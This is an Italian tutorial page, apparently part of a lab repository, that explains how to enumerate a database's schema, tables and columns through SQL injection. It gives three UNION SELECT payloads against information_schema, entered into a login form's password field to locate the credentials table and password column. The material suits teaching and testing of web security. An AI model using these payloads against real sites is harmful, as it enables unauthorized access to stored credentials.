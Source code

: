# Recuperiamo informazioni sulle tabelle e colonne del database

Nel primo esempio abbiamo visto come forzare l'accesso al sito web con un attacco di SQL injection. Ma affinchè possa funzionare, bisogna avere una certa conoscenza su come sono fatte le tabelle e sui loro nomi.

In questo esempio proveremo ad estrarre queste informazioni:

```
' UNION SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT 1,1; -- x
```

```
' UNION SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'my_db' LIMIT 0,1; -- x
```

```
' UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'my_db' AND TABLE_NAME = 'users_ex1' LIMIT 3,1; -- x
```

Utilizzando questi tre frammenti di query all'interno del campo password, riusciamo con molta pazienza a recuperare tutte le informazioni che caratterizzano il nostro form di login:
1. Nome del database
2. Nome della tabella che contiene le credenziali
3. Nome della colonna che contiene la password (o gli altri campi della tabella)
